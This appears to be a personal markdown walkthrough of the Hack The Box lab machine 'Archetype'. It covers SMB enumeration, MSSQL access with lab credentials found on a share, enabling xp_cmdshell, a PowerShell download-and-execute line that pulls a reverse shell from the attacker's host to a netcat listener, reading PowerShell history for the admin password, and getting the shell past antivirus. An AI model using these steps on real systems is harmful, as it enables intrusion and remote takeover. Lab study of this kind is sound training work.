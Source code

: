 ## Archetype (my first box)

1. Connect to openvpn

2. Join Machine

3. Ping the IP

4. nmap -sC -sV -Pn MY_IP

   - Port 445 Open

      - Windows SMB File Sharing Server

      - https://searchsecurity.techtarget.com/answer/Detecting-and-defending-against-TCP-port-445-attacks./

   - Port 1433 Open

        - MSSQL Server

        - https://docs.microsoft.com/en-us/sql/sql-server/install/configure-the-windows-firewall-to-allow-sql-server-access?view=sql-server-ver15

5. smbclient -N -L \\\\\\\\MY_IP\\\

	- [How to use?](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)

   - SMB (Server Message Block) is a network protocol to share files

   - smbclient is a tool to browse files shared on SMB

6. DTS Config file is for [SQL Server](https://secinject.wordpress.com/2020/10/20/hack-the-box-archetype-writeup/)

   - USERID: ARCHETYPE\sql_svc

   - PASSWORD: M3g4c0rp123

7. Connect to MSSQL server with credentials

   - Can use `locate` to find stuff on Kali Linux

   - `locate mssqlclient`

   - python3 /path/to/mssqlclient.py USER_ID@PUBLIC_IP -windows-auth

8. Check for sysadmin privileges

   - SELECT IS_SRVROLEMEMBER ('sysadmin')
   
      - TRUE if no output

      - FALSE if "NULL" output

9. Configure the SQL server to allow us to run powershell scripts
   
   - `sp_configure;` list current configuration
   
   - `EXEC sp_configure "SERVICE", STATUS` to change service configuration
   
   - `reconfigure;` reconfigures SQL settings based on changes 
   
   - enable 'show advanced options' via `EXEC sp_configure "Show Advanced Options", 1`
   
   - enable 'xp_cmdshell' via `EXEC sp_configure "xp_cmdshell", 1`
   
      - Allows you to run powershell scripts in MSSQL

      - `xp_cmdshell echo "Hello World"` will print out Hello World on to the SQL cli

10. Use a reverse TCP powershell script

    - [Used this one](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)

      - Change the port to 443

      - Change the IP to tun0 IP

11. Set up a python http server in the directory of the reverse TCP powershell

    - `python3 -m http.server 80`

12. Set up netcat listener on port 443

    - `nc -lvnp 443`  

13. Run powershell via xp_cmdshell to download the reverse TCP shell 

    ```
    xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"
    ```

    - On the window with python server, you would get logs downloading the power shell

    - On the window with nc listener, you would receive a connection and connect to the host as sql_svc

      - Press ENTER key to continue as sql_svc host

14. Now we have user access, can navigate to `C:\Users\sql_svc\Desktop` directory and grab user flag

15. We need to escalate privileges and get root privileges

16. Check PowerShell history

    - https://0xdf.gitlab.io/2018/11/08/powershell-history-file.html

    - `type /path/to/console_host_history.txt` 

      ```
      type
      C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\Console
      Host_history.txt
      ```

17. Purpose of [Net Use](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/gg651155(v=ws.11)), command maps resource using administrator credentials

    - username: administrator

    - password: MEGACORP_4dm1n!!

28. Run psexec.py to get a privileged shell

    `psexec.py administrator@10.10.10.27`

### 3 main issues encountered:

1. Antivirus caught the reverse TCP powershell script

   - Guessing the anti-virus on Archetype recognizes the shell script?

   - Modify original shell script to make it unrecognizable?

      - Added the import statement which was missing in **point 2**.
   
   - From reddit, it seems to be the way I formatted the powershell script
   
      - I went and reformat the powershell script
     
      - https://www.reddit.com/r/hackthebox/comments/lwl1tm/archetypestuck_on_netcat/
     
      - Hence just copy and paste directly
   
   - From HTB Forums, a work around seems to be modifying the script itself
     
      - https://forum.hackthebox.eu/discussion/4496/archetype-antivirus-blocking-reverse-shell
     
      - Added `(pwd).PATH to (pwd)` but seems to produce the same results
   
2. The 'New-Object' command was found in the module 'Microsoft.PowerShell.Utility', but the module could not be loaded  
   
   - From HTB, import the module that cant be loaded, AKA 'Microsoft.PowerShell.Utility'
   
   - https://forum.hackthebox.eu/discussion/3410/starting-point-foothold-powershell-problem
   
   - `Import-Module Microsoft.PowerShell.Utility;`
   
   - On the SQL CLI, you can also run `xp_cmdshell powershell Import-Module Microsoft.PowerShell.Utility`
   
   - I added the above command to the powershell script
   
3. Kali Linux denies all incoming traffic and allow outgoing traffic by default
   
   - Need to implicitly allow incoming traffic at the particular port
   
   - applicable for other boxes moving forward
   
   - https://askubuntu.com/questions/1121172/what-happens-if-ufw-firewall-is-inactive
   
   - https://www.digitalocean.com/community/tutorials/how-to-set-up-a-firewall-with-ufw-on-ubuntu-18-04
   
   - `sudo ufw allow from 10.10.10.27 proto tcp to any port 80, 443`
   
4. IP that reverse shell connects to/NC watches for on port 443
   
   - Use private IP not public (duh, also because via VPN, the box should be able to see you)
   
   - `curl ifconfig.me` for Public IP
   
   - `ifconfig` for Private IP, look at inet
   
      - Will have 2 under eth0 and tun0 (these are network interfaces)
     
         - https://superuser.com/questions/1100815/et0-vs-tun0-with-openvpn
       
         - Use tun0's private IP for the above scripts, eth0 will not work (linked to openvpn)

### Methodology:

- NMAP

- Googling what the open ports indicate
   
- Enumerating SMB Server
   
- Linking the files found on server to SQL server
   
- Misconfiguring SQL server
   
- Running a reverse shell
   
- Get the USER flag
   
- Finding out the frequently accessed files
   
- Linking the credentials found to obtaining root privileges
   
- Get the ROOT flag

### Useful Links:

- https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation
   
- https://secinject.wordpress.com/2020/10/20/hack-the-box-archetype-writeup/ (In depth write up, different tools used!)


